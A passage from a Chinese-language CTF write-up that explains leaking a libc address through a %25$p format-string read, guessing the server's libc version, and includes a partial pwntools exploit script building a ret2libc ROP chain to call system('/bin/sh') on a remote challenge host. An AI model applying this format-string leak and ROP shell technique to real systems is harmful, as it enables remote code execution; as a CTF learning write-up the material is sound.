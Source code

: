 思路重新回到泄露栈中的函数真实地址，先说第一种%p进行泄露。

![](/upload/img/2706180-20220424083227872-1671747977.png)


栈顶偏移25(0x13+6),因此直接%25$p即可。不过这样泄露出来的地址还需要减去362，因为现在得到的是puts+362，而我们仅仅要的是puts的真实地址。这样的缺点就是程序patch不同的libc，这个偏移是不一样的。以本题为例，题目并没有给出libc.so因此这个偏移我们是无法确定的(现在看到的只是我们本地的偏移，远程可能并不一样)。

不过这个方法有一定的运气成分在这里面，我猜这个版本不会太高（我本机是2.27的，当时本地通了远程没通，就知道肯定是libc patch的有问题），就从2.23开始patch libc。结果patch第一个2.23-0ubuntu11.3_amd64就被我给猜对了（服务器那边用的也是这个libc）。

这个libc蒙对之后，由于基地址也泄露出来了，剩下的就简单多了，本地怎么打，远程就怎么打(不过讲这个方法感觉没什么意义，毕竟这是靠运气（不过如果远程给了Libc的话这个方法是可以用的）主要我确实是用这个方法打通了，因此记录一下)

#### exp1

```python
# coding:utf-8
from pwn import *
from LibcSearcher import *
def pwn():
    context(arch='amd64', os='linux', log_level='debug')
    p = remote('39.99.242.16', 10000)
    libc = ELF("/home/hacker/Desktop/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6")
    fmt_addr = 0x400836
    p.recvuntil('fmt\n')
    payload = '%25$p' + (0x78 - 5) * 'a' + p64(fmt_addr)
    p.sendline(payload)
    p.recvuntil('\x78')
    leak_addr = int(p.recv(12), 16)
    print('leak_addr1--------------->', hex(leak_addr))
    libc_base = leak_addr - 362 - 0x6F6A0
    print(hex(libc_base))
    print('libc_base-------------->', hex(libc_base))
    sys_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + libc.search("/bin/sh").next()
    pop_rdi_addr = 0x21112 + libc_base
    print(hex(libc_base))
    ret = 0x400679
    payload = 0x78 * 'b'
    payload+=p64(ret)+p64(pop_rdi_addr)+p64(bin_sh_addr)+p64(sys_addr)+p64(0xdeadbeef)
```